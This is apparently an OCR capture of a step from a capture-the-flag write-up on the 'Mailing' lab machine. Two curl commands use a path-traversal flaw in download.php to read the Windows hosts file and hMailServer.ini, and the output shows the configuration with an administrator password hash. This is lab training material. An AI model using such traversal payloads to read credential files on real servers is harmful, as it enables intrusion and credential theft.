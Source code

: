 curl -vvk http://mailing.htb/download.php?file=../../../../../Windows/System32/drivers/etc/hosts

curl -vvk http://mailing.htb/download.php?file=../../../../../../../Program+Files/hMailServer/Bin/hMailServer.ini

[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
* Connection #0 to host mailing.htb left intact
